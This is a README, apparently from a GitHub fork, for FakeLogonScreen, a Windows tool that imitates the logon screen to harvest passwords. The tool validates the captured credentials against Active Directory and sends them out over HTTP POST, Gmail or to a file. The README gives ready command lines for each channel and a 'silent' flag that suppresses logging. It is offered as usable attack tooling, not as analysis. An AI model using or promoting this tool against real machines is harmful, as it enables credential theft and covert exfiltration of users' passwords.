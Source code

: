 # FakeLogonScreen
FakeLogonScreen is a utility to fake the Windows logon screen in order to obtain the user's password. The password entered is validated against the Active Directory or local machine to make sure it is correct and is then displayed to the console or saved to disk.

It can either be executed by simply running the .exe file with the appropriate commands.

Binaries available from the [Releases](https://github.com/diegomardian/fakelogonscreen/releases) page.
Binaries are Built against .NET Framework 4.5 which is installed by default in Windows 8, 8.1 and 10

# Features
- Primary display shows a Windows 10 login screen while additional screens turn black
- If custom background is configured by the user, shows that background instead of the default one
- Validates entered password before closing the screen
- Username and passwords entered are outputted to console or stored in a file
- Blocks many shortkeys to prevent circumventing the screen
- Minimizes all existing windows to avoid other windows staying on top
- Send results through either http, gmail, or to a file

# How To Use
FakeLogonScreen accepts these parameters:
| Option | Description |
| ------ | ---------- |
| `http [url]` | Sends results to url as a json post request with the results contianed in "results" |
| `gmail [email] [password]` | Sends a email to the specified email (Note: You must enable less apps accesss [here](https://www.google.com/settings/security/lesssecureapps) |
| `file [filepath]` | writes results to the file specified |
 FakeLogonScreen normally will make a log.txt file but if you append `silent` to the end it will not.
## Http
You can create your own server or you can use [DuckyServer](), a pre built server.
## Exmaple using DuckyServer
`FakeLogonScreen.exe http http:/127.0.0.1/fake_login_screen silent`
## Gmail
To use Gmail make sure you go to [https://www.google.com/settings/security/lesssecureapps](https://www.google.com/settings/security/lesssecureapps) and enable "Allow less secure apps" for the account you will use.
## Example
`FakeLogonScreen.exe gmail testaccount@gmail.com testpassword silent`
## File
Just specify the file you would like FakeLogonScreen to write to.
## Example
`FakeLogonScreen.exe file C:\Users\test\passwords.txt`
